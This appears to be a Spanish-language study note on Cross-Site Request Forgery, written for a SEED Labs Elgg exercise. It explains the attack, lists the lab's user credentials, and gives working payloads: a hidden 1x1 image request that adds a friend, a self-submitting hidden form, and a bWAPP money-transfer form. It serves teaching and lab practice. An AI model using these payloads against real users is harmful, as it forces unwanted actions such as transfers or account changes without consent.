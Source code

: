 # Cross-Site Request Forgery (CSRF o XSRF)

Tags: #CSRF #OWASP #Explotacion 

El **Cross-Site Request Forgery** (**CSRF**) es una vulnerabilidad de seguridad en la que un atacante **engaña** a un usuario legítimo para que realice una acción no deseada en un sitio web sin su conocimiento o consentimiento.

En un ataque CSRF, el atacante engaña a la víctima para que haga clic en un enlace malicioso o visite una página web maliciosa. Esta página maliciosa puede contener una solicitud HTTP que realiza una acción no deseada en el sitio web de la víctima.

Por ejemplo, imagina que un usuario ha iniciado sesión en su cuenta bancaria en línea y luego visita una página web maliciosa. La página maliciosa contiene un formulario que envía una solicitud HTTP al sitio web del banco para transferir fondos de la cuenta bancaria del usuario a la cuenta del atacante. Si el usuario hace clic en el botón de envío sin saber que está realizando una transferencia, el ataque CSRF habrá sido exitoso.

El ataque CSRF puede ser utilizado para realizar una amplia variedad de acciones no deseadas, incluyendo la transferencia de fondos, la modificación de la información de la cuenta, la eliminación de datos y mucho más.

Para prevenir los ataques CSRF, los desarrolladores de aplicaciones web deben implementar medidas de seguridad adecuadas, como la inclusión de tokens CSRF en los formularios y solicitudes HTTP. Estos tokens CSRF permiten que la aplicación web verifique que la solicitud proviene de un usuario legítimo y no de un atacante malintencionado.

Os compartimos a continuación el enlace al comprimido ZIP que utilizamos en esta clase para desplegar el laboratorio donde practicamos esta vulnerabilidad:

-   **Lab Setup**: [https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)
```bash 
# Usuarios del lab 
alice:seedalice
samy:seedsamy
```

## HTML
En el CSRF podemos modificar todos aquellos campos en donde no sea necesaria una autenticación en caso de no tener las credenciales. Pero si las tenemos claro que podemos modificar cualquier tipo de campo. 
* Son muy comunes en ataques de phishing
* La persona debe de estar logeada en la web donde esta el CSRF, y al momento de que abra el enlace, este pueda hacer los cambios como (Passwd, campos críticos, etc...)


Este tipo de scripts se deben de hacer en html, en donde sabemos que podemos hacer acciones en el mismo sitio tramitando data con la url.
```html
<img src="http://www.seed-server.com/action/friends/add?friend=57" alt="image" width="1" height="1" />  <!-- Enviaremos un html de una 'imagen' con un codigo-->
```
Desde la parte de action es para agregar un amigo en el lab de la pagina anterior. Por lo que al momento de mandarlo a alguien y este abra el correo o url, automáticamente se le agregara el amigo con ese identificador que en este caso es 57.  La acción va de la mano con el identificador del usuario a atacar.


```html
<html>
  <body>
    <form action="http://dominio/recurso" method="GET/POST">
      <input type="hidden" name="appsec" value="appsec" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


```html 
<div id="main">
    
    <h1>CSRF (Transfer Amount)</h1>

    <p>Amount on your account: <b> 1000 EUR</b></p>

    <form action="[http://bwapp.xyz/csrf_2.php](view-source:http://bwapp.xyz/csrf_2.php)" method="GET">

        <p><label for="account">Account to transfer:</label><br />
        <input type="text" id="account" name="account" value="223-45678-90"></p>

        <p><label for="amount">Amount to transfer:</label><br />
        <input type="text" id="amount" name="amount" value="100"></p>

        <button type="submit" name="action" value="transfer">Transfer</button>   

    </form>
    
</div>
```

